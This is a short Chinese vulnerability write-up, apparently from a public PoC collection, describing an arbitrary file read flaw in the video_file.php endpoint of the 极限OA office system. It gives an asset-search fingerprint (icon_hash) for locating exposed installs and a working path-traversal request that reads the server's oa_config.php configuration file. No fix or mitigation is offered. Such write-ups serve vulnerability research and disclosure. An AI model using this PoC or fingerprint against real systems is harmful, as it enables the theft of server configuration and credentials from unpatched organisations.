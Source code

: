 # 极限OA video_file.php 任意文件读取漏洞

## 漏洞描述

极限OA video_file.php存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

<a-checkbox checked>极限OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1967132225"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657611799572-0a7316e9-7d7d-4c8c-8e5c-891904bc474f-20220712154642026.png)

验证POC

```php
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1657611948243-17fb2a06-755a-4e18-8e12-36aef770134c.png)